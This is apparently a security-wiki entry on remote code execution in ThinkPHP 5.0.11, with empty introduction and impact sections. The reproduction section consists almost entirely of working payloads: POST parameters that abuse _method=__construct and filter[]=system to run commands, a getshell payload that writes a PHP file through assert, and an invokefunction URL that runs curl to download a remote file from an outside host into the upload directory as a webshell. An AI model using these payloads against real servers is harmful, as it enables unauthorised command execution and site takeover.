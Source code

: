 ```yaml
---
title: "Thinkphp 5.0.11"
id: zhfly3150
---
```


# Thinkphp 5.0.11

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

post提交

```
http://www.0-sec.org/public/index.php?s=index/index/index `s=whoami&_method=__construct&method&filter[]=system

s=whoami&_method=__construct&method=POST&filter[]=system

s=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> getshell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

> 利用远程文件写入

```
http://www.0-sec.org/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=curl https://www.hack.com/xxx.js -o ./upload/xxx.php 
```